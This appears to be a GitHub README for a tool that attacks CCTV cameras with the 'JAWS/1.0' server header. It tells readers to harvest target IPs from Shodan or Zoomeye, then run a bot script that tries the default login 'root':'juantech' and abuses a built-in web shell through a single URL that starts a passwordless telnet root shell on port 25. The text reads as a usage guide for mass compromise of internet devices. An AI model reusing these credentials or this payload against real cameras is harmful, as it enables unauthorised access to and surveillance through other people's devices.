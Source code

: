 # Pwning-CCTV-cameras
Exploiting cameras with a very distinctive HTTP Server header of "JAWS/1.0".

The detailed description of the vulnerability is shown in the link below.
https://www.pentestpartners.com/security-blog/pwning-cctv-cameras/

Throuth searching the string "JAWS/1.0" in Shodan or Zoomeye, we can get target IP list. Executing the JAWS_bot.py to get the devices which have the vulnerability.
JAWS_bot.py is based on two methods: weak password and the built-in web shell.
  -weak password: "root":"juantech".
  -built-in web shell: inputing url like "http://192.168.3.101/shell?/usr/sbin/telnetd -l/bin/sh -p 25" to bind the telnet service to 25 port without password.
